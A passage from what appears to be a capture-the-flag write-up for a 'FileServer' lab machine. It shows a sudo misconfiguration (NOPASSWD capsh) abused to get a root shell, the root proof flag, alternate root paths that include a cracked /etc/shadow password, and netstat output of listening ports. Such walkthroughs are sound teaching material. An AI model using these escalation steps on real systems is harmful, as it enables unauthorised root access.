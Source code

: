 [bla@fileserver smbuser]$ sudo -l
Matching Defaults entries for bla on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bla may run the following commands on this host:
    (ALL) NOPASSWD: /usr/sbin/capsh, (ALL) /usr/sbin/setcap

it has sudo permissions to capsh and setcap which leads back to the note.txt file from earlier.

Looking at the man page for capsh (http://man7.org/linux/man-pages/man1/capsh.1.html) we can see that there is the -- argument that will

    Execute /bin/bash with trailing arguments.
    Note, you can use -c 'command to execute' for
    specific commands.

This means we can use it to go directly to root:

[bla@fileserver smbuser]$ sudo /usr/sbin/capsh --
[root@fileserver smbuser]# whoami
root


Root proof.txt:

[root@fileserver ~]# cat proof.txt
    _______ __    _____                                       _____
   / ____(_) /__ / ___/___  ______   _____  _____            |__  /
  / /_  / / / _ \\__ \/ _ \/ ___/ | / / _ \/ ___/  ______     /_ < 
 / __/ / / /  __/__/ /  __/ /   | |/ /  __/ /     /_____/   ___/ / 
/_/   /_/_/\___/____/\___/_/    |___/\___/_/               /____/  
                                                                   

flag : 7be[REDACTED]6e9


Root Paths:

    Use the cracked password from /etc/shadow

    Use sudo /usr/sbin/capsh -- as the bla to open a root shell

    Hopefully there is something in the runme binary but we haven’t worked it out yet


Other interesting finds that could lead to alternate paths:

Multiple listening ports on UDP and IP6:

cp        0      0 0.0.0.0:2049            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:2121            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:42698           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:20048           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:58202           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp        0      0 192.168.232.129:22      192.168.232.132:46248   ESTABLISHED -                   
tcp6       0      0 :::2049                 :::*                    LISTEN      -                   
tcp6       0      0 :::57602                :::*                    LISTEN      -                   
tcp6       0      0 :::139                  :::*                    LISTEN      -                   
tcp6       0      0 :::111                  :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::20048                :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   